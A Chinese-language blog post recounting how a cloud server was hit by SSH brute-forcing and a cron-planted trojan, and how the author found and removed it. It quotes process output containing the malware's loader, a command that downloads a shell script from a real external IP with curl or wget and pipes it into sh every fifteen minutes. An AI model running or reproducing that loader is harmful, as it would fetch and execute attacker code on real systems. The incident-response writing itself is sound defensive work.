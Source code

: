 ```yaml
---
title: ECS遭遇安全攻击的一次经历
date: 2019-05-04 20:11:03
tags:
---
```


突然，腾讯云发出安全提示信息，先是SSH暴力破解的警告，过了几天又是ECS被植入木马的警告，Linux的安全防护被提上日程了！

# 服务器的问题表现

{% asset_img alert-0.png 腾讯云的警告信息汇总%}

- 登录ECS服务器，用`top`命令检查系统状态，发现CPU负荷长期维持100%，系统响应缓慢，其中`/tmp/vThHH`严重消耗资源，确认中招了！

{% asset_img alert-1.png SSH暴力破解的警告信息%}

- 服务器的root口令没有变化，但登录成功时提示有几百个`failed login attempts`，说明SSH口令已经被暴力破解

# 系统检查的主要工作

主要从以下几个方面入手：

1. 检查可疑的网络服务

使用`netstat -nlp`，发现除了22，80，443端口，还对外暴露了可疑的7946端口，调用者是`/tmp/vThHH`。

2. 检查可疑的系统进程

通过`ps -ef`命令，跟踪可疑进程`/tmp/vThHH`，发现父进程就是木马程序`/usr/bin/ybznfa2`。
进一步检查，发现了木马的加载进程。

```
root      4365   736  0 18:30 ?        00:00:00 /usr/sbin/CROND -n
root      4366  4365  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) | sh
root      4367  4366  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) |sh
```

3. 检查cron定时任务

该木马由crond启动，通过`crontab -u root -l`检查定时任务，发现每15分钟就执行一次上述bash脚本，这就是木马的埋点！

# 该木马的工作原理

- 通过网络爬虫等手段收集服务器域名信息
- 以服务器默认的root用户，通过ssh暴力破解获得口令
- 通过ssh登录，添加cron定时任务，从远端服务器下载木马程序，并存放在多个目录下
- 后台启动木马，打开自定义端口进行远程控制

# 处理措施

- 手工清理cron的任务清单
- 手工杀死`/tmp/vThHH`，`/usr/bin/ybznfa2`等可疑进程
- 手工删除上述木马程序
- 检查系统进程、网络服务、定时任务等状态，确认问题解决

# 几点体会

- 为彻底消除SSH暴力破解的威胁，关闭口令登录方式，改为密钥登录

---

# 参考文档